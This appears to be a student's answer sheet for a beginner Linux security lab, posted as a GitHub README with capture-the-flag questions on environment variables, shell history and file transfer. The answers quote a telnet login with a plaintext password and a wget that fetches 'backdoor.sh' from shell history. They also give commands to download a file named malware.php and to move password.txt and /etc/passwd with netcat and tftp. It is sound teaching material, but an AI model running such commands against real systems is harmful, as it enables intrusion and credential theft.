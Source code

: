 # Basics_Linux_Kamkar
Exercices and Flags

## Bash_environment

1. On your student machine what is the value of the FLAG environment variable ?

> FLAG : BC{EXPORT_B4SH_FLAG}

1. Currently if you notice your machine, the variable you have created will be deleted. What should you do to make your variable persistent? (With a Bash shell).

> Commands : export command=something

1.  **From a hacker's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 119 telnet 10.21.55.98 -login admin -pass MyP4ssW0rDiS3CuR3!

1.  **From an analyst's perspective**, look for information that might be useful to you in the ``.history`` file.

> Your answer : 95 wget http://10.88.56.53/backdoor.sh and the following lines

## Downloading_files

1. On your Kali machine, create a file named malware.php.

````  
echo "This is a malware file" > malware.php 
````
Then, in the same directory, ccreate a temporary server with python on port 5000.
````
python3 -m http.server 5000
````
2. On your Student machine, download the malware.txt file with the wget command.

> Your command : wget 192.168.149.15:5000/malware.php

4. On your Student machine, download the malware.txt file with the cURL command.

> Your command : curl -O 192.168.149.15:5000/malware.php

1. On the student machine, create a file named password.txt and transfer it to your student machine with netcat

> Your commands : nc -lvp 4444 < password.txt
> nc 10.12.181.103 4444 > password.txt

1. On the student machine, transfer ``/etc/passwd`` file to your kali machine with tftp

> the default folder where files are shared on the student machine is /var/lib/tftpboot so I copied passwd in there as root user first

> your commands : tftp 10.12.181.103
> get passwd

## Finding_files
